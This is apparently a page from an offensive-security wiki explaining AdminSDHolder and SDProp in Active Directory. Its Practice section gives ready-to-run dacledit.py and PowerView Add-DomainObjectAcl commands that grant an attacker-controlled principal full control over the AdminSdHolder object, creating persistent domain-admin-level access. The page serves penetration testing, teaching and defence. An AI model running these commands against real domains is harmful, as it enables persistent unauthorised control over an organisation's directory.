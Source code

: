 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# AdminSDHolder

## Theory

AdminSdHolder protects domain objects against permission changes. "AdminSdHolder" either refers to a domain object, a "worker code" or an operation depending on the context. 

The operation consists in the PDC (Principal Domain Controller) Emulator restoring pre-set permissions for high-privilege users every 60 minutes. Understanding what DACLs/ACEs are and how to abuse them is a requirement to the understanding of this persistence technique (see [Access Controls abuse](../movement/dacl/)).

The operation is conducted by a "worker code" called SDProp (Security Descriptor propagator). 

SDProp propagates AdminSdHolder's Security Descriptor (which contains the DACL) to every protected object every 60 minutes if their SD is different.

The AdminSdHolder object is located at `CN=AdminSdHolder,CN=SYSTEM,DC=DOMAIN,DC=LOCAL`. For instance, the default AdminSdHolder object's DACL contains the following.

* Authenticated Users: Read
* SYSTEM: Full Control
* Administrators: Modify
* Domain Admins: ReadAndExecute
* Enterprise Admins: ReadAndExecute

The default protected objects are the following.

* member users (possibly nested) of the following groups: `Account Operators`, `Administrators`, `Backup Operators`, `Domain Admins`, `Domain Controllers`, `Enterprise Admins`, `Print Operators`, `Read-only Domain Controllers`, `Replicator`, `Schema Admins`, `Server Operators`
* the following users: `Administrator`, `krbtgt`

> [!TIP]
> It's worth noting the members of the `Domain Controllers` and `Read-Only Domain Controllers` groups are not protected ([source](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a0d0b4fa-2895-4c64-b182-ba64ad0f84b8)), only the groups are.

> [!TIP]
> When talking about `AdminSdHolder`, the `AdminCount` attribute is usually mentioned. This attribute is automatically set on an object when adding it to a protected group. Originally, the purpose was to improve SDProp's performance. `AdminCount` cannot be used for malicious purposes and is now mainly informative.
> 
> Also, `AdminCount` will block inheritance. This means that setting inheritence in the ACE added to `AdminSdHolder` will be mostly useless. For instance, domain controllers objects are part of the Domain Controller group (at `CN=Domain Controllers,CN=Users`) which has `AdminCount` set to 1. While a new ACE set to `AdminSdHolder` will propagate to the group, its members will not inherit it.

## Practice

Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL. 

Let's say an attacker adds the following ACE to AdminSdHolder's DACL: `attackercontrolleduser: Full Control`.

At the next run of SDProp, `attackercontrolleduser` will have a `GenericAll` privilege over all protected objects (Domain Admins, Account Operators, and so on).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).


```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```

AdminSdHolder's DACL can then be inspected with the same utility.

```bash
dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```


=== Windows

This can be done in PowerShell with `Add-DomainObjectAcl` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All
```

AdminSdHolder's DACL can then be inspected with `Get-DomainObjectAcl`.

```powershell
# Inspect all AdminSdHolder's DACL
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

# Inspect specific rights an object has on AdminSdHolder (example with a user)
sid = Get-DomainUser "someuser" | Select-Object -ExpandProperty objectsid
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid}
```

:::


## Resources

[https://adsecurity.org/?p=1906](https://adsecurity.org/?p=1906)

[https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop](https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop)

[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)